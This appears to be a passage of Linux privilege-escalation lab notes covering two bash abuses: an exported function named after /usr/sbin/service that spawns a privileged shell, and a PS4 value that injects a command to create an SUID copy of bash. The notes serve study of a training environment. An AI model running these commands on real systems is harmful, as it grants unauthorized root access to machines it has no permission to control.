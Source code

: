 #### Environment Variables



![image-20200814223351105](linuxPrivesc.assets/image-20200814223351105.png)



#### abusing shell features 1

In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

```bash
function /usr/sbin/service { /bin/bash -p; }

export -f /usr/sbin/service
```



#### abusing shell features 2

Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```


